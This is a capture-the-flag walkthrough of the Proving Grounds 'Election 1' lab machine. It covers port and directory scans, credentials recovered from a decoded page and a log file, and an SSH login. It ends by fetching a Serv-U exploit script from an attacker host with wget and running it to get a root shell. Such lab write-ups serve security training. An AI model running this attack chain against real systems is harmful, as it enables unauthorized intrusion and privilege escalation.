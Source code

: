 ```yaml
---
layout: default
title: Election 1
parent: Proving Grounds Play
nav_order: 17
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/election1]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.211
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:07 EST
Nmap scan report for 192.168.160.211
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration

---

## 80 | HTTP

### Directory Busting

WFuzz for files

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "http://192
.168.160.211/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl
. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more informatio
n.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.211/FUZZ
Total requests: 37050

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000069:   200        375 L    964 W      10918 Ch    "index.html"
000000157:   403        9 L      28 W       280 Ch      ".htaccess"
000000248:   200        4 L      4 W        30 Ch       "robots.txt"
000000279:   200        1172 L   5873 W     95704 Ch    "phpinfo.php"
000000379:   200        375 L    964 W      10918 Ch    "."
000000537:   403        9 L      28 W       280 Ch      ".html"
000000806:   403        9 L      28 W       280 Ch      ".php"
000001564:   403        9 L      28 W       280 Ch      ".htpasswd"
000001830:   403        9 L      28 W       280 Ch      ".htm"
000002100:   403        9 L      28 W       280 Ch      ".htpasswds"
000004625:   403        9 L      28 W       280 Ch      ".htgroup"
000005172:   403        9 L      28 W       280 Ch      "wp-forum.phps"
```

Wfuzz for directories

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "http://192.168.160.211/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.211/FUZZ
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000139:   301        9 L      28 W       323 Ch      "javascript"
000000300:   301        9 L      28 W       323 Ch      "phpmyadmin"
000004255:   200        375 L    964 W      10918 Ch    "http://192.168.160.211/"
000004227:   403        9 L      28 W       280 Ch      "server-status"
000005666:   301        9 L      28 W       321 Ch      "election"
```

Robots.txt shows 4 entries

![robots](../../../assets/images/ctfs/proving_grounds/election1/robots.png)

Ran Gobuster against _/election_ directory and located _card.php_

![card](../../../assets/images/ctfs/proving_grounds/election1/card.png)

Decoded the binary code and revealed credentials

![creds](../../../assets/images/ctfs/proving_grounds/election1/creds.png)

Located the following credentials: 1234:Zxc123!@#
{: .warn}

Use the credentials to logon to the admin console discovered by Gobuster at _/election/admin_

![admin](../../../assets/images/ctfs/proving_grounds/election1/admin.png)

Deadend. Moving on to other directories found by Gobuster.

# Exploitation

---

We discover _/election/admin/logs_ and a _system.log_ file which provides credentials.

![logs](../../../assets/images/ctfs/proving_grounds/election1/logs.png)

Located the following credentials: love:P@$$w0rd@123
{: .warn }

We can use these credentials to authenticated to the SSH service on the target.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/election1]
└─$ ssh love@192.168.160.211
The authenticity of host '192.168.160.211 (192.168.160.211)' can't be established.
ED25519 key fingerprint is SHA256:z1Xg/pSBrK8rLIMLyeb0L7CS1YL4g7BgCK95moiAYhQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.160.211' (ED25519) to the list of known hosts.
love@192.168.160.211's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

471 packages can be updated.
358 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Apr  9 23:19:28 2020 from 192.168.1.5
love@election:~$ id
uid=1000(love) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)

```

# Post-Exploitation

---

## SUID Permissions

```bash
love@election:~$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

## Exploit Serv-U Privesc Exploit

We locate the version of the Serv-U service as 15.1.6.25

![version](../../../assets/images/ctfs/proving_grounds/election1/version.png)

Checking searchsploit, there is a privesc shell script for Serv-U version under 15.1.

![searchsploit](../../../assets/images/ctfs/proving_grounds/election1/searchsploit.png)

Move the exploit to the target

```bash
love@election:/tmp$ wget http://192.168.45.217:8000/47173.sh
--2023-11-11 09:38:30--  http://192.168.45.217:8000/47173.sh
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1163 (1.1K) [text/x-sh]
Saving to: ‘47173.sh’

47173.sh            100%[===================>]   1.14K  --.-KB/s    in 0s

2023-11-11 09:38:30 (89.3 MB/s) - ‘47173.sh’ saved [1163/1163]

love@election:/tmp$ chmod +x 47173.sh
love@election:/tmp$ ./47173.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Nov 11 09:38 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# id
uid=1000(love) gid=1000(love) euid=0(root) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
sh-4.4# whoami
root

```

After executing the Serv-U privesc script we have a root shell.
